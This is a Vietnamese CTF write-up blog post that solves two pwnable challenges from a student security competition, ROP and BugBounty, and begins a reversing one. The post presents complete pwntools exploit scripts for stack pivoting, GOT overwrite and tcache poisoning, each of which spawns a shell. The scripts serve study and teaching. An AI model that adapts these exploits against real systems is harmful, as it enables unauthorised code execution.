

Sinh viên với An toàn Thông tin là cuộc thi CTF danh giá nhất cho sinh viên ở Việt Nam. Hằng năm, cuộc thi được tổ chức 3 vòng: khởi động, sơ khảo và chung khảo. Dưới đây là bài giải cho một số challenge pwnable và reversing ở các vòng thi của mình.  

Theo ý kiến cá nhân, các bài reversing thường khá khó và tốn nhiều công sức để phân tích nhưng rất thú vị. Ngược lại, các bài pwnable thì không quá mới lạ khi chỉ xoay quanh các bug cơ bản như Buffer Overflow, Format String Bug hay Use After Free, ...  

<!--more-->

<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin: 0 auto 15px;
}
</style>

## pwn/ROP



* **Given files (Renamed):** [ROP.zip](https://drive.google.com/file/d/1oKm_Ph4fC4LRWtJW0weBosRvdQy1yFY6/view?usp=sharing)


### 0x01 Overview

Kiểm tra thông tin của binary và các lớp bảo vệ.

```Bash
➜  pwn-ROP file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=408b0fc1dee8dad901b33ff68c1e8179fef5bc89, not stripped

gef➤  checksec
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Đề bài cho một binary 64 bit, đã tắt canary và có thể ghi được GOT (Global Offset Table). 

Bên cạnh đó, đề bài còn cung cấp Dockerfile, mình sẽ build docker để lấy libc, ld trong docker trước. Ý tưởng đầu tiên của mình là sử dụng kỹ thuật **ret2libc**. 

```shell
➜  pwn-ROP docker build . -t rop
➜  pwn-ROP docker run -p 5000:5000 --privileged -it rop
➜  pwn-ROP docker cp ee13afb344e4:/srv/usr/lib/x86_64-linux-gnu/libc.so.6 .
➜  pwn-ROP docker cp ee13afb344e4:/srv/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 .
```

### 0x02 Finding the vulnerability

Dễ dàng thấy có bug Buffer Overflow trong hàm `vuln()`. Đặc biệt hơn khi không có bất cứ hàm nào in ra được output ngoài màn hình. Vì vậy kỹ thuật **ret2libc** nêu trên không thể sử dụng được. Kết hợp với việc GOT ghi đè được, mình có thể dùng kỹ thuật **ret2dlresolve** để giải hoặc **Stack Pivot** nhằm overwrite bảng GOT của `alarm()` thành `execv()`.  


Tại sao sử dụng `execv()` mà không phải `execve()` như thông thường? 

Do `execv()` yêu cầu tới tận 3 tham số, trong khi đó mình không thấy bất cứ gadget nào có thể thay đổi được giá trị thanh ghi `rdx`. Vì vậy mình đã sử dụng `execv()` với yêu cầu là 2 tham số và các giá trị `rdi`, `rsi` hoàn toàn kiểm soát được.  




### 0x03 Stack Pivot 

Stack Pivot là một kỹ thuật đưa địa chỉ stack từ một số ngẫu nhiên do cơ chế [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) thành địa chỉ tĩnh của binary nhằm thuận tiện cho việc xây dựng các ROP chain.

Để sử dụng kỹ thuật này, đoạn assembly code thường được sử dụng là 

```assembly
leave
retn
```

Đây chính là đoạn code mình sử dụng để thực thi stack pivot có địa chỉ **0x401249**.

```assembly
.text:0000000000401249 lea     rax, [rbp+buf]
.text:000000000040124D mov     edx, 48h ; 'H'  ; nbytes
.text:0000000000401252 mov     rsi, rax        ; buf
.text:0000000000401255 mov     edi, 0          ; fd
.text:000000000040125A call    _read
.text:000000000040125F nop
.text:0000000000401260 leave
.text:0000000000401261 retn
```

Nếu đoạn code trên được gọi, mình sẽ làm được:
- Ghi được dữ liệu vào `rbp - 0x20`
- New RBP = [RBP]
- New RIP = [RBP + 8]

<br/>

Trước tiên, cần phải tính toán offset để ghi đè Saved RIP. Mảng `buf` nằm ở `[rbp - 0x20]` &rarr; ta cần 32 bytes để ghi đè nó. Mình sẽ thử viết 1 POC để trigger lỗi xem new RBP và new RIP sẽ có giá trị như nào. 

```python
#!/usr/bin/env python3
from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

p = process(exe.path)   

payload = flat(
    b'A' * 0x20, 
    0xdeedbeef,         # New RBP 
    b'B' * 8            # New RIP 
)

p.send(payload)

p.interactive()
```

Kết quả thu được như mình mong muốn, new RBP = 0xdeedbeef và new RIP = BBBBBBBB

```shell
$rax   : 0x30
$rbx   : 0x0
$rcx   : 0x00001555553fd7e2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x48
$rsp   : 0x00007fffffffdfe8  →  0x4242424242424242 ("BBBBBBBB"?)
$rbp   : 0xdeedbeef
$rsi   : 0x00007fffffffdfc0  →  0x4141414141414141 ("AAAAAAAA"?)
$rdi   : 0x0
$rip   : 0x0000000000401261  →  <vuln+002d> ret
$r8    : 0x00007fffffffdf30  →  0x0000000000000000
$r9    : 0x0
$r10   : 0x00001555552ef5e8  →  0x000f001200001a64
$r11   : 0x246
$r12   : 0x00007fffffffe108  →  0x00007fffffffe37e  →  "/home/ducdatdau/ctfs/2024/ascis_final/pwn-ROP/chal[...]"
$r13   : 0x0000000000401262  →  <main+0000> endbr64
$r14   : 0x0000000000403e18  →  0x0000000000401180  →  <__do_global_dtors_aux+0000> endbr64
$r15   : 0x0000155555554040  →  0x00001555555552e0  →  0x0000000000000000
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
─────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdfe8│+0x0000: 0x4242424242424242   ← $rsp
0x00007fffffffdff0│+0x0008: 0x0000000000000001
0x00007fffffffdff8│+0x0010: 0x0000155555312d90  →  0xe80001b859e8c789
0x00007fffffffe000│+0x0018: 0x0000000000000000
0x00007fffffffe008│+0x0020: 0x0000000000401262  →  <main+0000> endbr64
0x00007fffffffe010│+0x0028: 0x00000001ffffe0f0
0x00007fffffffe018│+0x0030: 0x00007fffffffe108  →  0x00007fffffffe37e  →  "/home/ducdatdau/ctfs/2024/ascis_final/pwn-ROP/chal[...]"
0x00007fffffffe020│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40125a <vuln+0026>      call   0x4010a0 <read@plt>
     0x40125f <vuln+002b>      nop
     0x401260 <vuln+002c>      leave
●→   0x401261 <vuln+002d>      ret
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall_patched", stopped 0x401261 in vuln (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401261 → vuln()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

### 0x04 Building the payload

Các công việc mình cần phải xử lý bây giờ là: 

1. Overwrite 2 bytes cuối cùng của GOT `alarm()` thành `execv()`. \
Do cùng phiên bản Libc nên 12 bits cuối của địa chỉ các hàm Libc luôn giữ nguyên. Ví dụ `alarm = 0x1555553d3540` thì **540** luôn được giữ nguyên, overwrite 2 bytes cuối làm thay đổi giá trị `3`. Lúc này sẽ cần bruteforce để tìm chính xác địa chỉ, xác suất thành công là **1/16 = 6.25%**.
2. Ghi chuỗi `/bin/sh\x00` lên bộ nhớ. 
3. [RSI] = 0, trong đó RSI là một địa chỉ hợp lệ.

#### 1. Overwrite 2 bytes GOT `alarm()`

Để overwrite, RBP - 0x20 = 0x404020 &rarr; RBP = 0x404040. 


Sau khi ghi được 2 bytes cuối, [RBP] = [0x404040] = 0, dẫn tới việc không thể tiếp tục ghi được các giá trị khác vào bộ nhớ nữa. 

Mình xây dựng lại cấu trúc bộ nhớ như sau, trong đó [0x404040] tiếp tục được trỏ tới 1 vùng nhớ không có dữ liệu ở phía dưới để phục vụ cho công việc [RSI] = 0, đồng thời 12 bits cuối cùng của `alarm@got` cũng bị overwrite. 


```python
pop_rdi = 0x401247
pop_rbp = 0x40119d
ret = 0x40101a
alarm_got = 0x404020

payload = flat(
    b'A' * 0x20, 
    alarm_got + 0x40, 
    0x401249
)

input('input 1: stack pivot')
p.send(payload)

payload = flat(
    alarm_got + 0x100, 
    0x401249,
    b'B' * 0x10,
    alarm_got + 0x20, 
    0x401249
)

input('input 2: stack pivot new area')
p.send(payload)

input('input 3: change 2 bytes')
p.send(b'\xc0\x41')

```

Kết quả thu được như mình mong muốn, 2 bytes cuối của `alarm@got` bị ghi thành `/x41/xc0`, RBP = 0x404120. 

```shell
gef➤  x/gx 0x404020
0x404020 <alarm@got.plt>:       0x00001555553d41c0
gef➤  x/gx $rbp
0x404120:       0x0000000000000000
```

<br/>

#### 2. Write `/bin/sh\x00` and seup [RSI] = 0

Công việc cuối cùng là viết `/bin/sh\x00`, setup cho RSI = 0 và xây ROP chain để gọi `execv`. Memory layout được mình thiết kế như sau


Payload hoạt động nhưng phải bật option NOASLR. Quay lại vấn đề bruteforce, mình sẽ bỏ script trong vòng `While` để liên tục bruteforce đến khi nào có đúng địa chỉ `execv`. 

```python
#!/usr/bin/env python3
from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

while True:
    def GDB(): 
        gdb.attach(p, gdbscript='''
            b *0x401261
            continue
        ''')

        pause()

    # GDB()

    p = process(exe.path)   

    pop_rdi = 0x401247
    pop_rbp = 0x40119d
    ret = 0x40101a
    alarm_got = 0x404020

    payload = flat(
        b'A' * 0x20, 
        alarm_got + 0x40, 
        0x401249
    )

    time.sleep(0.1)
    log.info('input 1: stack pivot')
    p.send(payload)

    payload = flat(
        alarm_got + 0x100, 
        0x401249,
        b'B' * 0x10,
        alarm_got + 0x20, 
        0x401249
    )

    time.sleep(0.1)
    log.info('input 2: stack pivot new area')
    p.send(payload)

    log.info('input 3: change 2 bytes')
    p.send(b'\xc0\x41')

    # payload = flat(
    #     b'/bin/sh\x00', 
    #     pop_rdi, 
    #     alarm_got + 0xe0, 
    #     exe.plt['alarm'],
    #     alarm_got + 0xe0, 
    #     0x401249
    # )

    payload = flat(
        0,
        b'/bin/sh\x00',
        b'C' * 0x10, 
        0xdeedbeef, 
        pop_rdi, 
        alarm_got + 0xe8, 
        exe.plt['alarm']
    )

    time.sleep(0.1)
    log.info('input 4: write /bin/sh')
    p.send(payload)

    try:
        time.sleep(0.1)
        log.info('input 5: getshell')
        p.send(b'\x00')

        time.sleep(0.1)
        p.sendline(b'echo PWNED')
        p.recvuntil(b'PWNED')
        
        break
    except EOFError:
        p.close()

p.interactive()
```

## pwn/BugBounty 



* **Given files (Renamed):** [BugBounty.zip](https://drive.google.com/file/d/1C81zIKRymYcLpbp-MgavQPbJay2oazr8/view?usp=sharing)



### 0x01 Overview 

#### First Glance 

Một bài heap note truyền thống phiên bản **Libc 2.35** với đầy đủ các chức năng: `add`, `delete`, `write`, `print`, `save`. Tất cả các lớp bảo vệ cho binary đều được bật lên. 

```Bash
➜ ./chall_patched

======= Welcome to "Note Application" =======
1. Add (add a note)
2. Delete (delete a note)
3. Write message (write your message into a note)
4. Print message (get your message from a note)
5. Save (save note into file)
6. Quit

[*] Your choice: 

➜ ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.8) stable release version 2.35.
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 11.4.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.

pwndbg> checksec
File:     /home/ducdatdau/ctfs/2024/ascis_final/pwn-BugBounty/chall_patched
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'.'
SHSTK:      Enabled
IBT:        Enabled
```

Mã giả hàm `main` được IDA tạo ra có nội dung như sau: 

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax
  FILE *v4; // rbx
  size_t v5; // rax
  char v6; // [rsp+1Fh] [rbp-141h]
  int v7; // [rsp+20h] [rbp-140h]
  int v8; // [rsp+24h] [rbp-13Ch]
  int v9; // [rsp+28h] [rbp-138h]
  int v10; // [rsp+2Ch] [rbp-134h]
  int nbytes; // [rsp+30h] [rbp-130h]
  int v12; // [rsp+38h] [rbp-128h]
  int v13; // [rsp+3Ch] [rbp-124h]
  _QWORD v14[8]; // [rsp+50h] [rbp-110h] BYREF
  void *ptr[17]; // [rsp+90h] [rbp-D0h] BYREF
  char v16[8]; // [rsp+11Ah] [rbp-46h] BYREF
  __int16 v17; // [rsp+122h] [rbp-3Eh]
  char nptr[8]; // [rsp+124h] [rbp-3Ch] BYREF
  int v19; // [rsp+12Ch] [rbp-34h]
  char v20[8]; // [rsp+130h] [rbp-30h] BYREF
  int v21; // [rsp+138h] [rbp-28h]
  char v22[8]; // [rsp+13Ch] [rbp-24h] BYREF
  int v23; // [rsp+144h] [rbp-1Ch]
  unsigned __int64 v24; // [rsp+148h] [rbp-18h]

  v24 = __readfsqword(0x28u);
  sub_1B5D(a1, a2, a3);
  sub_1A81();
  v6 = 0;
  memset(ptr, 0, 0x80u);
  memset(v14, 0, sizeof(v14));
  *(_QWORD *)nptr = 0;
  v19 = 0;
  *(_QWORD *)v20 = 0;
  v21 = 0;
  *(_QWORD *)v22 = 0;
  v23 = 0;
  while ( 1 )
  {
    fflush(stdin);
    if ( v6 != 1 )
    {
      stream = fopen("saved_note.txt", "w+");
      v6 = 1;
    }
    puts(&s);
    printf("[*] Your choice: ");
    __isoc99_scanf("%2s", nptr);
    puts(&s);
    if ( atoi(nptr) == 1 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v7 = atoi(v20);
      if ( v7 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x38u, "main");
      printf("  Size: ");
      __isoc99_scanf("%10s", v22);
      puts(&s);
      v8 = atoi(v22);
      ptr[v7] = malloc(v8);
      *((_DWORD *)v14 + v7) = v8;
    }
    else if ( atoi(nptr) == 2 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v9 = atoi(v20);
      if ( v9 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x48u, "main");
      free(ptr[v9]);
    }
    else if ( atoi(nptr) == 3 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v10 = atoi(v20);
      *(_QWORD *)v16 = 0;
      v17 = 0;
      printf("  Size: ");
      __isoc99_scanf("%10s", v16);
      nbytes = atoi(v16);
      if ( nbytes >= *((_DWORD *)v14 + v10) )
      {
        puts("[!] No more space !!!");
      }
      else
      {
        fflush(stdin);
        if ( (__int64)ptr[v10] >> 32 == (__int64)v22 >> 32 )
        {
          puts("HERETICS !!!");
          exit(0);
        }
        *((_DWORD *)v14 + v10) -= read(0, ptr[v10], (unsigned int)nbytes);
      }
    }
    else if ( atoi(nptr) == 4 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v3 = atoi(v20);
      v12 = v3;
      if ( v3 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x71u, "main");
      printf("  Data: ");
      puts((const char *)ptr[v12]);
    }
    else if ( atoi(nptr) == 5 )
    {
      printf("  Index: ");
      __isoc99_scanf("%2s", v20);
      puts(&s);
      v13 = atoi(v20);
      if ( v13 > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x7Du, "main");
      puts("[*] Saving the note...");
      v4 = stream;
      v5 = strlen((const char *)ptr[v13]);
      fwrite(ptr[v13], 1u, v5 - 1, v4);
    }
    else
    {
      if ( atoi(nptr) == 6 )
      {
        if ( v6 )
          fclose(stream);
        exit(0);
      }
      puts("[!] You sure that is a command ??");
      puts(&s);
    }
  }
}
```

#### Clean code

Dựa vào dòng code 

```c
__assert_fail("iIdex < 16", "challenge.c", 0x38u, "main");
```

ta có thể xác định được danh sách sẽ có tối đa 16 notes. Mình đã rename và chỉnh lại size trên stack như sau: 


- `ptr` &rarr; `list_notes`
- `v14` &rarr; `list_notes_size`. Tạo kiểu `int` cho `list_notes_size` (x3 phím `d`), delete member (phím `u`) toàn bộ mảng từ [-0x108, -0xd8], tạo array (`Shift` + `*`).


### 0x02 Finding the vulnerability 

Có tổng cộng 3 bug được tìm thấy trong chương trình: 

1\. **Bug Out Of Bound**: Tất cả các chức năng đều có bug này. Chương trình chỉ kiểm tra cận trên `idx > 15` mà không kiểm cận dưới. Vì chỉ cho phép nhập 2 byte, khoảng giá trị `idx` có thể truy cập được thay vì [0, 15] sẽ là [-9, 15]. 

```c
printf("  Index: ");
    scanf("%2s", idx_buf);
    puts(&s);
    idx_add = atoi(idx_buf);                  // BUG: Out Of Bound -> idx = [-9, 15]
    if ( idx_add > 15 )
        __assert_fail("iIdex < 16", "challenge.c", 0x38u, "main");
```

2\. **Bug Use After Free**: Ở chức năng `delete`, sau khi `free` đã không gán NULL cho con trỏ vừa được giải phóng. 

3\. **Bug Unlimited Size**: Ở chức năng `write`, biến `new_size` có kiểu `int` nhưng trong hàm `read()` lại bị ép kiểu về `unsigned int` dẫn tới việc có thể ghi một lượng dữ liệu với kích thước không giới hạn. 


### 0x03 Building the payload

Sau khi có nắm rõ được toàn bộ lỗ hổng chương trình, kế hoạch khai thác của mình như sau: 
1. Dùng bug UAF để leak địa chỉ Libc. 
2. Dùng bug UAF để leak địa chỉ Heap. 
3. Tcache Poisoning để overwrite `ABS@got.plt`. 


Mặc dù lớp bảo vệ RELRO binary là **Full RELRO** nhưng trong Libc sẽ là **Partial RELRO**, vì vậy ta có thể overwrite bảng GOT của các hàm trong Libc. Bên cạnh đó,`ABS@got.plt` được gọi trong hàm `puts()`, do hàm này chỉ yêu cầu 1 tham số nên sẽ rất thuận tiện cho việc ghi đè thành `system("/bin/sh")`. 


#### Leak Libc address 

Lần lượt tạo 2 chunk: ${chunk}_0$ có size `0x420` để `free` vào Unsorted Bin, ${chunk}_1$ có size `0x40` để làm separator tránh hiện tượng gộp chunk. Delete ${chunk}_0$ &rarr; view ${chunk}_0$ &rarr; Leak Libc. 

```python
add(0, 0x420) 
add(1, 0x40) 

delete(0)

leaked_libc_addr = u64(view(0).ljust(8, b'\x00'))
libc.address = leaked_libc_addr - 0x21ace0
log.success(f'Leaked libc address: {hex(leaked_libc_addr)}')
log.success(f'Libc base address: {hex(libc.address)}')
```

Địa chỉ leak được là `0x155555503ce0`, địa chỉ Libc Base ở chế độ NOASLR là `0x1555552e9000`\
&rarr; offset = 0x155555503ce0 - 0x1555552e9000 = 0x21ace0. 

#### Leak Heap address 

Mục đích của việc leak heap là để thực hiện Tcache Poinsoning. Vì vậy, ta sẽ tạo liên tiếp 2 ${chunk}_{2,3}$ có size `0x40`, rồi `free` ${chunk}_3$ trước, sau đó mới đến ${chunk}_2$. 

```python
add(0, 0x420) 
add(1, 0x40) 
add(2, 0x40) 
add(3, 0x40)

leaked_heap_addr = u64(view(3).ljust(8, b'\x00'))
heap_base = leaked_heap_addr << 12
log.success(f'Leaked heap address: {hex(heap_base)}')
```

Do ${chunk}_3$ được `free` đầu tiên, con trỏ `fd` của chunk đó sẽ được tính theo công thức: 

$${fd}_3 = 0 \oplus ({addr}_3 \gg 12)$$

với ${addr}_3$ là địa chỉ của ${chunk}_3$. Vậy để tính được giá trị ${addr}_3$, ta sẽ dịch trái 12 bit `<< 12`. 

#### Overwrite GOT

Xét trường hợp ${chunk}_{2,3}$ đều đã được `free` (${chunk}_3$ `free` trước). Nếu ta viết vào ${chunk}_2$ có địa chỉ `addr_2`, dữ liệu `0xdeadbeef`. Payload sẽ như sau: 

```python
addr_2 = heap_base + 0x900 
write(2, 0x10, p64(0xdeadbeef))
```



Vậy nếu ta muốn viết vào địa chỉ `target_addr` dữ liệu `target_value` thì phải làm như nào?

Công thức payload sẽ là: 

```python
write(2, 0x10, p64(((addr_2 >> 12) ^ target_addr)))

add(2, 0x40) 
add(3, 0x40) 

write(3, 0x30, p64(target_value))
```

Giải thích: 

Do ${chunk}_2$ được free sau ${chunk}_3$, con trỏ `fd` của ${chunk}_2$ sẽ trỏ tới ${chunk}_3$ và được tính bởi công thức: 

$$ {fd}_2 = {addr}_3 \oplus ({addr}_2 \gg 12) $$

Vậy nếu như thay thế  ${addr}_3$ bằng `target_addr`, có phải ta đã làm cho ${chunk}_2$ trỏ tới `target_addr` rồi đúng không?

Lần malloc đầu tiên, chương trình sẽ trả về ${addr}_2$ vì nó đang là con trỏ đầu danh sách (do free cuối cùng). Tiếp tục malloc, chúng ta sẽ nhận được con trỏ có giá trị là `target_addr` do danh sách đã bị chúng ta điều hướng trước đó. 

Cuối cùng chỉ cần viết `target_value` vào ${chunk}_3$ sẽ hoàn thành mục tiêu đề ra. 

---

Quay lại bài toán, mục tiêu của chúng ta sẽ là: `target_addr` = `ABS@GOT`, `target_value` = `system_addr`. 

```python
addr_2 = heap_base + 0x900 
target_addr = libc.address + 0x21a070 # <*ABS*@got.plt> 
log.info(f"target_addr: {hex(target_addr)}")
write(2, 0x10, p64(((addr_2 >> 12) ^ target_addr)))

add(2, 0x40) 
add(3, 0x40) 

write(3, 0x30, b'/bin/sh\x00'.ljust(0x28, b'\x00') + p64(libc.symbols['system']))

p.sendlineafter(b'choice: ', b'4')
p.sendlineafter(b'Index: ', b'3')
```


Đây là offset so với Libc, do địa chỉ phải chia hết cho 16, vì vậy có thể linh hoạt chọn lựa offset theo dạng **0x21a070 - (0x10 * k)**. 


Kết quả sau 2 lần malloc, chương trình đã trả về cho ta địa chỉ `target_addr`. 


Thay vì viết trực tiếp vào `target_addr`, mình đã viết dữ liệu từ địa chỉ `target_addr - 0x30` để có thể chèn chuỗi `/bin/sh\x00` vào vị trí chứa data, các padding byte và `target_value`. 

### 0x04 Final script 

Sau ghi đã overwrite bảng GOT, gọi chức năng 4 - Print Message của note[3] để lấy shell. 

```python
#!/usr/bin/env python3

from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

# context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)
context.update(arch='amd64', os='linux', log_level='debug', terminal=['wt.exe', '-p', 'uterm', '--', 'wsl.exe', '-e'], binary=exe)

p = process(exe.path)
# p = remote('HOST', PORT)

def GDB():
    gdb.attach(p, gdbscript='''
        # malloc
        break *0x00005555555555EE
        # free 
        break *0x00005555555556CA
        break *0x000055555555583F
        continue
    ''')

    pause()

# Good Luck Pwning ^^

def add(index, size): 
    p.sendlineafter(b'choice: ', b'1')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendlineafter(b'Size: ', str(size).encode())

def delete(index):
    p.sendlineafter(b'choice: ', b'2')
    p.sendlineafter(b'Index: ', str(index).encode())

def write(index, size, content): 
    p.sendlineafter(b'choice: ', b'3')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.send(content)

def view(index):
    p.sendlineafter(b'choice: ', b'4')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.recvuntil(b'Data: ')
    return p.recvline().strip()

# STAGE 1: LEAK LIBC 
add(0, 0x420) 
add(1, 0x40) 
add(2, 0x40) 
add(3, 0x40) 

delete(0)

leaked_libc_addr = u64(view(0).ljust(8, b'\x00'))
libc.address = leaked_libc_addr - 0x21ace0
log.success(f'Leaked libc address: {hex(leaked_libc_addr)}')
log.success(f'Libc base address: {hex(libc.address)}')

# Tcache poisoning libc 2.35 -> LEAK HEAP 
delete(3) 
delete(2) 

leaked_heap_addr = u64(view(3).ljust(8, b'\x00'))
heap_base = leaked_heap_addr << 12
log.success(f'Leaked heap address: {hex(heap_base)}')

addr_2 = heap_base + 0x900 
target_addr = libc.address + 0x21a070 # <*ABS*@got.plt> 
log.info(f"target_addr: {hex(target_addr)}")
write(2, 0x10, p64(((addr_2 >> 12) ^ target_addr)))

# GDB()

add(2, 0x40) 
add(3, 0x40) 

write(3, 0x30, b'/bin/sh\x00'.ljust(0x28, b'\x00') + p64(libc.symbols['system']))

p.sendlineafter(b'choice: ', b'4')
p.sendlineafter(b'Index: ', b'3')

p.interactive()
```

## rev/Trust Me!



* **Given files:** [TRUSTME.rar](https://drive.google.com/file/d/16cexQLpgva7Z3Gq0xdLPF-7fg3J1FT8k/view?usp=sharing) (password: **infected**).
